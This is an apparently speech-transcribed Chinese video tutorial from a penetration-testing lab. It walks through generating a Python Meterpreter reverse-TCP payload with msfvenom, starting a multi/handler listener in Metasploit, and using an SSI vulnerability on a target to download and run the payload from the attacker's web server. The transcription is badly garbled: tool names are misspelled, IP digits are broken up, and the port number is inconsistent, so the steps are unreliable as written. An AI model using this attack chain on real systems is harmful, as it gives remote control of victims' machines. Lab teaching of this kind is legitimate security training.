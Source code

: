 咱们来生成笑。今天呢哎我们首先切换到桌面。好莱斯。今天我们不使用PHP哎的笑，我们使用pasthon的项来尝试。首先MSF。之后杠PIPthon。mattter printer之后是reverse。

TCP law host。也就是咱们靶厂的IP地址来，我们来查看一下靶厂的IP地址。192。168。1。103啊，把它 copypy出来。paste来之后lower port。等于4445。

设置444哎之后杠F。run之后重定向到哎，这个root a。啊，咱们重新输入MSFVENOF呃，咱们之后是杠P表示它对应的平台的小tthon。Metter operator。为。Worse。TCP。

Law host。等于92。168。1。103lawport。表示它监听端口等于4444生成的哎是一个源代码run重定向的。root目录下的desktop。然后那咱们需要。2PY回撤。

咱们这时候哎通过这个MSFVENOM哎生成了一个基于paon的呃这样一个sell，并且它返回的哎这个地址是192。168。1。103，它监听的端口啊是444啊这样一个端口。

咱们在生成这样一个excel之后，哎，需要打开metpo，启动监听。首先输MSFcl来打开mattterport。因为mateport啊是一个比较大的安全框架。

里边集成了渗透测试所有哎的这样一个过程的工具。所以说打开速度是比较慢的，因为它需要加载很多的模块。

![](img/613882f3825691b7b78d2b129dced336_24.png)

打开之后哎，我们。来启动监庆。首先use export it。之后来是MULTI。head了回撤，然后设置payload set payload。

最后哎我们因为这里使用的是pathon matter printer，我们把这个复制过来。花呗哎之后我们。pas不去了。设置完这些哎那个expo和 payload之后，我们需要来设置对应的参数。

首先使用show options查看一下我们需要设置哪些参数回撤。我们在这里啊可以看到需要设置啊咱们监听的啊这个主机以及对应端口，这里是跟咱们生成这个。web小还是。一样的，需要设置对应的参数。

law host我们设置。卡利的这个IP地址。使用s。law host哎之后空格哎之后粘贴进来。回撤。咱们设置啊完成之后，需要查看一下是否设置成功，依然使用手。Opts回撤。这时候哎咱们设置成功。

设置完之后，使用装来开启监听回车。咱们下面哎就来靶场上，也就是通过SSI这个漏洞来下载咱们对应啊这个脚本，并且执行返弹效要。这里哎咱们输一个一，然后哎这里咱们输入对应的CMD。

首先哎咱们这里要使用下载的功能。通过什么下载呢？通过1个HTTP来这样一个写站点进行下载。192。168。1。103哎，之后是咱们shall点PY。咱们会想到。

咱们当前哎卡利linux并没有开启HTTP哎这样一个服务器，也就是阿帕奇服务器。那么咱们就需要哎开启对应的服务器，并且把hell移移送到哎咱们这个阿帕奇服务器的跟目录。下面咱们在终端当中操作。



